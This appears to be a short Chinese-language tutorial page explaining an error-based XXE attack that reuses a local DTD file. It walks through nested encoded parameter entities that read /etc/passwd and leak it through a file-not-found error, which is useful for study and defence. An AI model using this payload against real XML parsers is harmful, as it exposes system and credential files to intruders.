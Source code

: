 html編碼

```

&#x25; =  %

&#x26; = &

&#x27; = '


```




1.變數 local_dtd 請求本地文件   (第一層不用編碼)
```
file:///usr/share/yelp/dtd/docbookx.dtd
```


2.定義 ISOamso 字串變數這比較複雜，由於是字串需要編碼
```
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">

<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">

&#x25;eval;
&#x25;error;

```


簡單來說定義了兩個變數 file 和 eval 
```
file 請求 file:///etc/passwd
```


eval 又是一個字串變數又需要再編碼
```
<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>
```


eval字串 定義了一個 error變數
這邊先來看一下巧妙的地方

```
&#x26; 第一次解碼會變成 &
&#x27; 第一次解碼會變成 '
&#x25; 第一次解碼會變成 %

```

```
所以第一次解碼時:
注意到了嗎 (& 和 #x25; 結和成了 &#x25)
<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>
```
